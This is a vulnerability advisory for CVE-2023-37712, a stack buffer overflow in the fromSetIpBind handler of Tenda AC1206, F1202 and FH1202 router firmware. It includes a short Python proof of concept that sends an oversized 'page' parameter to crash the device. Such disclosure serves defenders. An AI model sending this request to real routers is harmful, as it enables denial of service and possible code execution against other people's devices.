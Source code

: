 # Tenda AC1206, F1202, FH1202 Vulnerability

This vulnerability lies in the `fromSetIpBind` function which influences the latest version of Tenda AC1206, F1202 and FH1202. (The latest version is [V15.03.06.23](https://down.tenda.com.cn/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip), [V1.2.0.20(408)](https://down.tenda.com.cn/uploadfile/F1202/US_F1202V1.0BR_V1.2.0.20(408)_CN_TD.zip) and [V1.2.0.20(408)](https://down.tenda.com.cn/uploadfile/FH1202/US_FH1202V1.0BR_V1.2.0.20(408)_CN_TD.zip))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetIpBind`.

In function `fromSetIpBind` it reads user provided parameter `page` into `page`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `gotopage`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromSetIpBind`, the attacker can easily perform a **DoS** or **RCE** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromSetIpBind?"
url += "page=" + "s" * 0x200

response = requests.get(url)
```

## Timeline

* 2023-07-10: CVE ID assigned (CVE-2023-37712)
